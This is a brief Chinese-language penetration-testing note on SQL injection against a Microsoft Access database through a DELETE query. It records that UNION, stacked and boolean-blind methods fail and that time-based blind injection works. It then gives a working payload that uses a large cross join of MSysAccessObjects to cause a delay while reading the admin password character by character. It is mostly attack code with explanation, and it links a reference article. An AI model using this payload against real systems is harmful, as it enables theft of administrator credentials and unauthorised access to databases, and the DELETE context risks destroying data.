 1、报错注入  
2、UNION注入-不可用
```
页面无数据输出
```
3、堆叠注入-不可用  
4、布尔盲注-不可用
```
界面无正确或错误显示
```
5、时间盲注-可用：  
```
delete from admin where id=7 and (SELECT count(*) FROM MSysAccessObjects AS T1, MSysAccessObjects AS T2, MSysAccessObjects AS T3, MSysAccessObjects AS T4, MSysAccessObjects AS T5, MSysAccessObjects AS T6, 
MSysAccessObjects AS T7,MSysAccessObjects AS T8,MSysAccessObjects AS T9,MSysAccessObjects AS T10,MSysAccessObjects AS T11,MSysAccessObjects AS T12)>0 and asc(mid((select top 1 password from admin),1,1))=117
```
此payload的执行需要where子句中的条件都为true，延时大概49s  
其中，如下语句造成延时：
```
(SELECT count(*) FROM MSysAccessObjects AS T1, MSysAccessObjects AS T2, MSysAccessObjects AS T3, MSysAccessObjects AS T4, MSysAccessObjects AS T5, MSysAccessObjects AS T6, 
MSysAccessObjects AS T7,MSysAccessObjects AS T8,MSysAccessObjects AS T9,MSysAccessObjects AS T10,MSysAccessObjects AS T11,MSysAccessObjects AS T12)>0
```
如下语句测试数据：
```
asc(mid((select top 1 password from admin),1,1))=117
```
参考链接：  
https://www.freebuf.com/news/39925.html
